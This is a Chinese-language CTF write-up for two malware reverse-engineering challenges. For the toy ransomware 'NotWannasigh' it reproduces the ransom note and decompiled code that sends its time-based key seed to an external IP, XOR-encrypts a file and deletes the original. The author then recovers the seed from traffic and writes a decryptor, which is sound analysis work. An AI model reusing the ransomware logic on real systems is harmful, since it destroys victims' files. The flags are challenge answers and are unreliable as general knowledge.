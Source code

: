 这次的比赛只有两道re，全都是malware，不难，也还挺有意思

#### danger-Live-and-Malicious-Code

病毒的代码里面混进了flag，js的语法也不是特别懂，发现了很多处理字符串的函数，所以干脆`console.log`都输出了出来，发现输出的`url`中间夹了flag

```
WPI{Oh_nose_procoding_detected}
```



#### NotWannasigh

首先看下`ransom note`

```
Haha! Your precious file flag.gif has been encrypted by my new and improved ransomware NotWannasigh! You must send bitcoin to "bitpay.com/83768" to get the decryption key. You should act fast because in 48 hours I will delete the key. Muahahahaha!
 - def-not-h4ckah

(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. If you send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey, that's really nice of you, Mental Health Hackers is a great organization). I will NOT send you the decryption key)
```

题目中所给的`flag-gif.EnCiPhErEd`应该就是加密过的文件，解密就可以得到flag，给的流量包暂时不知道作用是什么，干脆先看看程序的实现

```c++
*(_QWORD *)seed = time(0LL);
  srand(seed[0]);
  fd = socket(2, 1, 0);
  if ( fd == -1 )
  {
    puts("could not create socket");
  }
  else
  {
    puts("created socket");
    *(_DWORD *)&addr.sa_data[2] = inet_addr("108.61.127.136");
    addr.sa_family = 2;
    *(_WORD *)addr.sa_data = htons(0x50u);
    if ( connect(fd, &addr, 0x10u) >= 0 )
    {
      puts("connected");
      sprintf(&s, "%d", *(_QWORD *)seed);
      if ( send(fd, &s, 0xAuLL, 0) >= 0 )
        puts("sent");
      else
        puts("send failed");
    }
    else
    {
      puts("connect error");
    }
  }
```

先根据当前时间生成了一个随机数种子，然后进行通信，把这个种子发给了一个ip，这个种子肯定是后面生成随机数用的，所以肯定是有用的，这也就是流量包的作用，根据流量信息可以获得这个随机数种子的值`1585599106`

下面生成了一个随机数序列

```c++
  puts("targetting flag.gif");
  stream = fopen("flag.gif", "r+");
  fseek(stream, 0LL, 2);
  v19 = ftell(stream);
  fseek(stream, 0LL, 0);
  printf("fileSize = %d\n", (unsigned int)v19);
  v18 = v19 - 1LL;
  v8 = v19;
  v9 = 0LL;
  v3 = alloca(16 * ((v19 + 15LL) / 0x10uLL));
  v17 = &v6;
  for ( i = 0; i < v19; ++i )
    *((_BYTE *)v17 + i) = rand();
  puts("key generated by 256");
```

生成了key，下面是加密过程

```c++
for ( j = 0; ; ++j )
  {
    v14 = fgetc(stream);
    if ( j >= v19 )
      break;
    *((_BYTE *)v15 + j) = v14 ^ *((_BYTE *)v17 + j);
  }
  fclose(stream);
  remove("flag.gif");
  v13 = fopen("flag-gif.EnCiPhErEd", "w+");
  for ( k = 0; k < v19; ++k )
    fputc(*((unsigned __int8 *)v15 + k), v13);
  fclose(v13);
```

简单异或之后写入文件，所以生成随机数序列之后再异或回来就好了

```c++
#include <iostream>
#include <cstdio>
using namespace std;
int main()
{
    srand(1585599106);
    FILE *s = fopen("../flag-gif.EnCiPhErEd", "r");
    int index = 0;
    FILE *f = fopen("../flag.gif", "w+");
    while (!feof(s))
    {
        int uVar1 = rand()&0xff;
        int8_t tmp2=fgetc(s);
        int8_t tmp = uVar1 ^ tmp2;
        fputc(tmp, f);
        index = (int32_t)index + 1;
    }

    fclose(s);
    fclose(f);
    return 0;
}
```

这个脚本要在linux下跑，因为win的随机数生成的不一样

得到了含有flag的gif

![flag](WPICTF-re-wp/flag.gif)

flag有点难读，第一遍还读错了一位

```
WPI{It_always_feels_a_little_weird_writing_malware}
```

